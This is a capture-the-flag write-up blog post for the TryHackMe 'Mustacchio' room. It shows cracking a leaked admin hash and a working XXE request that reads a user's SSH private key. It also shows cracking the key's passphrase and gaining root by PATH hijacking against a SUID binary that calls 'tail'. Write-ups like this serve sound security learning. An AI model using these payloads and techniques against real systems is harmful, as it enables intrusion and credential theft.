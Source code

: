 ```yaml
---
layout: post
title:  "THM: Mustacchio"
date:   2021-06-12 19:00:00 +1000
category: hacking
---
```


## THM: Mustacchio
This is [Mustacchio](https://tryhackme.com/room/mustacchio) from THM. It's easy rated with no hints; let's go.

## Ports
SSH, a 'normal' HTTP port (i.e. on Port 80) and nginx on port 8765.

## Normal HTTP 
Let's start there. It's a blog about mustaches; not much to see. Some enumeration leads us to /custom/js, which contains *users.bak*, which is:

>SQLite 3.x database, last written using SQLite version 3034001

We can open it up, grab a hash for *admin* and crack it with john:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/mustache]
└─# john hash -w=/usr/share/wordlists/rockyou.txt                    
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldog19        (?)
1g 0:00:00:00 DONE (2021-06-12 02:20) 16.66g/s 11401Kp/s 11401Kc/s 11401KC/s bulldog27..bullcrap1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Now what?

## Port 8765
At port 8765 we have an admin login, so we login. Once we get in, we get a page where we can add a comment to the blog. In the page source we see it's expecting XML and we get a link to http://10.10.206.203:8765/auth/dontforget.bak, which has an example request:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/mustache]
└─# cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>An unnecessarily long paragraph which I have trimmed</com>
</comment>    
{% endhighlight %}

We also see this comment (in the page source):

>Barry, you can now SSH in using your key!

So what are we doing here? Getting the SSH key with an XXE attack. Here's my payload:

{% highlight html %}
POST /home.php HTTP/1.1
Host: 10.10.206.203:8765
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1066
Origin: http://10.10.206.203:8765
Connection: close
Referer: http://10.10.206.203:8765/home.php
Cookie: PHPSESSID=9tp014noj2vk3h3vp9v20jq716
Upgrade-Insecure-Requests: 1

xml=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>%26xxe;</name>
  <author>gh</author>
  <com>The long paragraph whatever</com>
</comment> 
{% endhighlight %}

Now this did actually take me a while to figure out, even though I knew it was XXE. What was happening was that anytime '&' was used, the request was dropped. So you have to URL encode the '&' to get the attack to work.

The SSH key is encrypted but we can crack that and log in:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/mustache]
└─# python /usr/share/john/ssh2john.py key > key.john
                                              
┌──(root💀kali)-[/opt/thm/mustache]
└─# john key.john -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (key)
1g 0:00:00:03 DONE (2021-06-12 03:49) 0.2732g/s 3918Kp/s 3918Kc/s 3918KC/sa6_123..*7¡Vamos!
Session completed
                                              
┌──(root💀kali)-[/opt/thm/mustache]
└─# chmod 600 key
                                              
┌──(root💀kali)-[/opt/thm/mustache]
└─# ssh -i key barry@10.10.206.203                         
Enter passphrase for key 'key': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

13 packages can be updated.
10 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$
{% endhighlight %}

## Root
Some manual enumeration finds an unusual SUID binary:

{% highlight shell %}
barry@mustacchio:/home/joe$ ls -lash
total 28K
4.0K drwxr-xr-x 2 joe  joe  4.0K Apr 29 20:32 .
4.0K drwxr-xr-x 4 root root 4.0K Apr 29 20:32 ..
 20K -rwsr-xr-x 1 root root  17K Apr 29 20:32 live_log
barry@mustacchio:/home/joe$ file live_log
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
{% endhighlight %}

What does it do?

{% highlight shell %}
barry@mustacchio:/home/joe$ ./live_log
10.9.10.123 - - [12/Jun/2021:07:46:48 +0000] "POST /home.php HTTP/1.1" 200 1123 "http://10.10.206.203:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
# etc
{% endhighlight %}

It appears to be reading the nginx log. If we go look, we can read the log but not write to it, since we are in the adm group:

{% highlight shell %}
barry@mustacchio:/var/log/nginx$ ls -lash
total 8.2M
4.0K drwxr-xr-x  2 root     adm    4.0K Apr 29 20:32 .
4.0K drwxrwxr-x 10 root     syslog 4.0K Apr 29 20:52 ..
8.0M -rw-r-----  1 www-data adm    8.0M Jun 12 07:48 access.log
188K -rw-r-----  1 www-data adm    181K Jun 12 07:47 error.log
{% endhighlight %}

I exfil the file with SCP:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/mustache]
└─# scp -i key barry@10.10.239.174:/home/joe/live_log ./live_log            
Enter passphrase for key 'key': 
live_log  
{% endhighlight %}

And check the contents with 'strings'

{% highlight shell %}
# snip
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
# snip
{% endhighlight %}

So the binary is running as root and calling 'tail' without a path. We know what to do:

{% highlight shell %}
barry@mustacchio:/home/joe$ which tail
/usr/bin/tail
barry@mustacchio:/home/joe$ cd /dev/shm
barry@mustacchio:/dev/shm$ echo sh > tail
barry@mustacchio:/dev/shm$ chmod +x tail
barry@mustacchio:/dev/shm$ export PATH=/dev/shm:$PATH
barry@mustacchio:/dev/shm$ /home/joe/live_log
# cd /root
# id;hostname;date
uid=0(root) gid=0(root) groups=0(root),4(adm),1003(barry)
mustacchio
Sat Jun 12 08:59:44 UTC 2021
#
{% endhighlight %}

Good one *zyeinn*.
